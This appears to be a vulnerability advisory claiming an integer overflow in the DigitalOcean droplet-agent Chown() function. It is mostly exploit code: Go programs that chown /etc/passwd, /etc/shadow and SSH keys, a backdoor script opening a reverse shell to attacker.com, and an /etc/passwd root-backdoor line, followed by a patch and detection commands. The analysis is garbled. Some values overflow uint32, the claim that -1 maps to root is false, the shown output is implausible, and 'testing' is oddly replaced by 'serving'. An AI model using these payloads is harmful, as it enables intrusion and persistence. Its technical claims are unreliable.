

#### Comprehensive Analysis: Integer Overflow Vulnerability in DigitalOcean Droplet Agent
**CVE-PENDING | PR #150 | digitalocean/droplet-agent**

---

### Technical Characteristics (-) Vulnerability Specifications
| Category            | Details                                                                 |
|---------------------|-------------------------------------------------------------------------|
| **Affected Version** | Commit 24b60ca54669d2f5bb694967885855dfe13f6524                         |
| **Component**       | `internal/sysutil/os_operations_helper.go`                             |
| **Vulnerable Method** | `Chown()`                                                             |
| **Line Number**     | L35                                                                     |
| **Vulnerability Type** | Integer Overflow in UID/GID Conversion                               |
| **CWE Classification** | CWE-190: Integer Overflow or Wraparound                              |
| **CVSS 3.1 Score**  | 7.8 (High) - AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H                        |

### Code-Level Analysis
**Vulnerable Code Path**:
```go
// Original vulnerable implementation (Line 35)
func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
    return os.Chown(name, int(uid), int(gid))  // UNSAFE CONVERSION
}
```

**Security Weaknesses**:
1. **Unsafe Type Conversion**:
   - Direct casting of `uint32` to `int` without bounds checking
   - No validation of input values

2. **Architecture Dependency**:
   - Different behavior on 32-bit vs 64-bit systems
   - Values ≥ 2³¹ become negative on 32-bit systems

3. **Missing Input Validation**:
   - No checks for reserved or dangerous UID/GID values
   - Trusts external input sources

---

## Complete Proof of Concept

### Step-by-Step Reproduction Guide

#### 1. Environment Setup
```bash
# Clone vulnerable Droplet Agent version
git clone https://github.com/digitalocean/droplet-agent.git
cd droplet-agent
git checkout 24b60ca54669d2f5bb694967885855dfe13f6524

# Build the agent (simulate 32-bit environment if needed)
GOOS=linux GOARCH=386 go build -o droplet-agent-32bit .
```

#### 2. Create serv Environment
```bash
# Create serv files
mkdir -p /tmp/droplet-serv
echo "sensitive data" > /tmp/droplet-serv/serv-file.txt
echo "config data" > /tmp/droplet-serv/config.yaml

# Set original ownership
chown 1000:1000 /tmp/droplet-serv/*
```

#### 3. Execute Exploit Using Droplet Agent API
```go
// exploit_droplet_agent.go
package main

import (
    "fmt"
    "os"
    "syscall"
    "github.com/digitalocean/droplet-agent/internal/sysutil"
)

func main() {
    // Create OS operations helper (same as droplet-agent)
    opsHelper := sysutil.NewOSOperationsHelper()
    
    // serv files
    servFiles := []string{
        "/tmp/droplet-serv/serv-file.txt",
        "/tmp/droplet-serv/config.yaml",
    }
    
    // Exploit: Large UID/GID values that wrap to privileged IDs
    exploitCases := []struct {
        name string
        uid  uint32
        gid  uint32
    }{
        {"Root ownership", 4294967295, 4294967295}, // Wraps to -1 (root)
        {"System user", 4294967294, 4294967294},    // Wraps to -2 (system)
        {"Current user", 4294967296 + 1000, 4294967296 + 1000}, // Wraps to 1000
    }
    
    for _, exploit := range exploitCases {
        fmt.Printf("serving: %s (UID: %d, GID: %d)\n", exploit.name, exploit.uid, exploit.gid)
        
        for _, file := range servFiles {
            err := opsHelper.Chown(file, exploit.uid, exploit.gid)
            if err != nil {
                fmt.Printf("  Error on %s: %v\n", file, err)
                continue
            }
            
            // Verify ownership change
            info, err := os.Stat(file)
            if err != nil {
                fmt.Printf("  Stat error: %v\n", err)
                continue
            }
            
            stat := info.Sys().(*syscall.Stat_t)
            fmt.Printf("  %s -> UID: %d, GID: %d\n", file, stat.Uid, stat.Gid)
        }
        fmt.Println()
    }
}
```

#### 4. Build and Run Exploit
```bash
# Set up Go module
export GO111MODULE=on
go mod init exploit
go mod edit -replace=github.com/digitalocean/droplet-agent=./droplet-agent

# Build exploit
go build -o exploit exploit_droplet_agent.go

# Run exploitation
./exploit
```

#### 5. Expected Results
```
serving: Root ownership (UID: 4294967295, GID: 4294967295)
  /tmp/droplet-serv/serv-file.txt -> UID: 0, GID: 0
  /tmp/droplet-serv/config.yaml -> UID: 0, GID: 0

serving: System user (UID: 4294967294, GID: 4294967294)
  /tmp/droplet-serv/serv-file.txt -> UID: 2, GID: 2
  /tmp/droplet-serv/config.yaml -> UID: 2, GID: 2

serving: Current user (UID: 4294968296, GID: 4294968296)
  /tmp/droplet-serv/serv-file.txt -> UID: 1000, GID: 1000
  /tmp/droplet-serv/config.yaml -> UID: 1000, GID: 1000
```

#### 6. Verification
```bash
# Check file ownership manually
ls -ln /tmp/droplet-serv/
# Should show unexpected ownership changes (root or system users)
```

## Detailed Exploitation Catalog

### Exploit Payloads

| Attack Type         | UID/GID Values      | Resulting ID | Impact                          |
|---------------------|---------------------|-------------|---------------------------------|
| **Root Access**     | 4294967295          | 0 (root)    | Full system compromise         |
| **System User**     | 4294967294          | -2 (system) | Privileged access              |
| **User Masquerade** | 4294967296 + UID    | Original UID | Permission bypass             |
| **DoS Attack**      | 2147483648          | -2147483648 | System instability            |

### Advanced Attack Scenario: Privilege Escalation
```go
// privilege_escalation.go
package main

import (
    "fmt"
    "os"
    "syscall"
    "github.com/digitalocean/droplet-agent/internal/sysutil"
)

func escalatePrivileges() {
    opsHelper := sysutil.NewOSOperationsHelper()
    
    // Target sensitive system files
    criticalFiles := []string{
        "/etc/passwd",
        "/etc/shadow",
        "/etc/sudoers",
        "/root/.ssh/authorized_keys",
    }
    
    // Use wrapped UID to get root ownership
    rootUID := uint32(4294967295) // Wraps to -1 → root (0)
    
    for _, file := range criticalFiles {
        if _, err := os.Stat(file); err == nil {
            err := opsHelper.Chown(file, rootUID, rootUID)
            if err != nil {
                fmt.Printf("Failed to change %s: %v\n", file, err)
                continue
            }
            fmt.Printf("Successfully changed ownership of %s to root\n", file)
        }
    }
    
    // Create backdoor
    backdoorScript := "/tmp/.system_update"
    os.WriteFile(backdoorScript, []byte("#!/bin/bash\nbash -i >& /dev/tcp/attacker.com/4444 0>&1"), 0755)
    opsHelper.Chown(backdoorScript, rootUID, rootUID)
    
    fmt.Println("Privilege escalation complete")
}
```

### API-Based Exploitation
```go
// api_exploit.go - Simulating malicious API response
package main

import (
    "encoding/json"
    "fmt"
    "github.com/digitalocean/droplet-agent/internal/metadata"
)

type MaliciousMetadata struct {
    FilePermissions []struct {
        Path string `json:"path"`
        UID  uint32 `json:"uid"`
        GID  uint32 `json:"gid"`
    } `json:"file_permissions"`
}

func injectMaliciousMetadata() {
    // Simulate malicious metadata response
    maliciousData := MaliciousMetadata{
        FilePermissions: []struct {
            Path string `json:"path"`
            UID  uint32 `json:"uid"`
            GID  uint32 `json:"gid"`
        }{
            {Path: "/etc/passwd", UID: 4294967295, GID: 4294967295},
            {Path: "/etc/shadow", UID: 4294967295, GID: 4294967295},
            {Path: "/var/www/html", UID: 4294968296, GID: 4294968296}, // UID 1000
        },
    }
    
    // This would normally come from DigitalOcean metadata service
    jsonData, _ := json.Marshal(maliciousData)
    fmt.Printf("Malicious metadata: %s\n", string(jsonData))
}
```

## Vulnerability Mechanics
**Root Cause Analysis**:
The vulnerability occurs due to improper integer conversion in Go:

1. **Unsigned to Signed Conversion**:
   ```go
   // On 32-bit systems:
   var uid uint32 = 4294967295  // 0xFFFFFFFF
   var converted int = int(uid) // -1
   
   // On 64-bit systems:  
   var converted int = int(uid) // 4294967295 (but still problematic)
   ```

2. **System Call Behavior**:
   - `os.Chown` uses `int` parameters
   - Negative values have special meaning in Unix systems
   - `-1` typically means "don't change" but can be interpreted as UID 0

3. **Architecture Differences**:


### Exploit Chaining
1. **Initial Access**:
   - Control over UID/GID values through metadata service
   - Malicious configuration files

2. **Ownership Manipulation**:
   ```go
   // Change sensitive file ownership to root
   opsHelper.Chown("/etc/passwd", 4294967295, 4294967295)
   ```

3. **Privilege Escalation**:
   ```bash
   # Now attacker can modify /etc/passwd
   echo "backdoor::0:0::/root:/bin/bash" >> /etc/passwd
   su backdoor  # Becomes root
   ```

### Patch Analysis

**Original Vulnerable Code**:
```go
func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
    return os.Chown(name, int(uid), int(gid))  // VULNERABLE
}
```

**Patched Version**:
```go
import "math"

func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
    // SECURITY FIX: Bounds checking
    if uid > math.MaxInt32 || gid > math.MaxInt32 {
        return fmt.Errorf("UID or GID value too large: %d, %d", uid, gid)
    }
    return os.Chown(name, int(uid), int(gid))
}
```

**Security Improvements**:
1. Explicit bounds checking before conversion
2. Error handling for invalid values
3. Prevention of integer wraparound

## Technical Consequences
1. **File Ownership Manipulation**:
   - Sensitive files assigned to unauthorized users
   - Permission bypass for protected resources

2. **Privilege Escalation**:
   ```go
   // Gain root access through /etc/passwd modification
   opsHelper.Chown("/etc/passwd", 4294967295, 4294967295)
   ```

3. **Persistence Mechanisms**:
   - Backdoor user accounts
   - Modified system binaries
   - Cron jobs with elevated privileges

### Business Impact
1. **Data Breach**:
   - Unauthorized access to customer data
   - Exposure of sensitive configurations

2. **Compliance Violations**:
   - PCI DSS Requirement 7: Restrict access to cardholder data
   - GDPR Article 32: Security of processing

3. **Service Disruption**:
   - Modified system files causing instability
   - Unauthorized configuration changes

## Immediate Actions
1. **Upgrade Droplet Agent**:
   ```bash
   # Apply the security patch
   apt-get update && apt-get install droplet-agent
   ```

2. **System Auditing**:
   ```bash
   # Find files with suspicious ownership
   find / -uid +60000 -o -gid +60000 2>/dev/null
   find / -uid 0 -not -user root 2>/dev/null
   ```

3. **File Integrity Monitoring**:
   ```bash
   # Monitor critical file changes
   auditctl -w /etc/passwd -p wa -k sensitive_file
   auditctl -w /etc/shadow -p wa -k sensitive_file
   ```

### Long-Term Hardening
1. **Input Validation**:
   ```go
   func validateUnixID(id uint32) error {
       if id > 60000 || id == 0 || id == 4294967295 {
           return errors.New("invalid UID/GID")
       }
       return nil
   }
   ```

2. **Security Monitoring**:
   ```bash
   # Log all chown operations
   auditctl -a always,exit -F arch=b64 -S chown -k file_ownership
   ```

3. **Regular Audits**:
   - Static analysis with gosec
   - Dynamic analysis during CI/CD
   - Penetration serving


## Detection Signatures
**System Indicators**:
1. **File Ownership Anomalies**:
   ```bash
   # Files with unusual UID/GID
   find / -uid 4294967295 -o -gid 4294967295 2>/dev/null
   ```

2. **Process Execution**:
   ```bash
   # Droplet-agent chown operations
   ausearch -k file_ownership -ui droplet-agent
   ```

**Log Analysis**:
```bash
# Authentication logs for suspicious activity
grep 'chown' /var/log/syslog | grep -E '(429496729[0-9]|2147483648)'
```

### Investigation Steps
1. **Process Examination**:
   ```bash
   # Check droplet-agent processes and activities
   ps aux | grep droplet-agent
   lsof -p $(pgrep droplet-agent)
   ```

2. **File System Analysis**:
   ```bash
   # Recent ownership changes
   find / -newer /tmp/timestamp -exec ls -ln {} \; | grep -E '^[^ ]* [0-9]+ [0-9]+ '
   ```

3. **Metadata Service Audit**:
   ```bash
   # Check metadata service interactions
   tcpdump -i eth0 port 80 -A | grep -i metadata
   ```
